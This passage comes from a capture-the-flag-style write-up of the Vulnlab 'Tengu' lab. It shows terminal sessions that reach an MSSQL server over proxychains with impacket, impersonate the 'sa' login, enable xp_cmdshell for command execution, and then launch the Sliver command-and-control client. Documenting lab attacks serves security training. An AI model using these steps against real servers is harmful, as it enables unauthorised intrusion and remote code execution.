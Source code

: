 ```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ proxychains -q impacket-mssqlclient -k -no-pass SQL.tengu.vl
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'master'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (TENGU\t1_m.winters  dbo@master)>
```

## Code Execution through MSSQL

We logged in as `sa` on the `MSSQL instance` and enabled `xp_cmdshell` to gain `code execution` on the system.

```c
SQL (TENGU\t1_m.winters  dbo@master)> exec_as_login sa
SQL (sa  dbo@master)>
```

```c
SQL (sa  dbo@master)> enable_xp_cmdshell
[*] INFO(SQL): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(SQL): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

Since I was facing a `character limit` while executing my payload, I switched to `Sliver` for convenience.

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...
[*] Loaded 20 aliases from disk
[*] Loaded 104 extension(s) from disk

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
                  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain annihilator
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```
